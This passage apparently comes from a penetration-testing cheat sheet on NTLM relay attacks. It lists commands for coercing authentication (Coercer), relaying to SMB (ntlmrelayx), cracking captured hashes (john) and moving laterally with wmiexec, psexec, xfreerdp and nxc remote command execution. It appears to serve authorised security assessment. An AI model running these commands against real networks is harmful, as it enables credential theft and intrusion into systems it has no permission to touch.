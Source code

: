 ### Relay Attacks

#### Vulnerable Network Protocols

- Use tools like Responder and ntlmrelayx to identify and exploit relay attack vulnerabilities.
- Use Coercer to force authentication and relay attacks:
  ```bash
  coercer -t 10.10.10.1 -l 10.10.10.2
  ```

#### Response Action

After identifying vulnerable protocols:

- **Set Up Relay Attacks:**
  ```bash
  ntlmrelayx.py -t smb://<target-ip>
  ```

- **Capture and Analyze Credentials:**
  Use tools like `john` or `hashcat` to process captured NTLM hashes:
  ```bash
  john --format=nt --wordlist=<wordlist> <hash-file>
  ```

- **Perform Lateral Movement:**
  Use tools like `wmiexec` from Impacket:

  ```bash
  wmiexec.py <user>:<pass>@<target-ip>
  ```

  **Additional Tools:**

  - **psexec.py (Impacket):**
    ```bash
    psexec.py <user>:<pass>@<target-ip>
    ```

  - **xfreerdp (Linux FreeRDP):**
    ```bash
    xfreerdp /u:<user> /p:<pass> /v:<target-ip>
    ```

  - **CrackMapExec for Remote Command Execution:**
    ```bash
    nxc smb <target-ip> -u <user> -p <pass> --exec "cmd.exe /c whoami"
    ```
  ```bash
  wmiexec.py <user>:<pass>@<target-ip>
  ```

- **Document Network Vulnerabilities:**
  Ensure all relay attack vectors and findings are added to the final report for mitigation recommendations.

### Username Enumeration
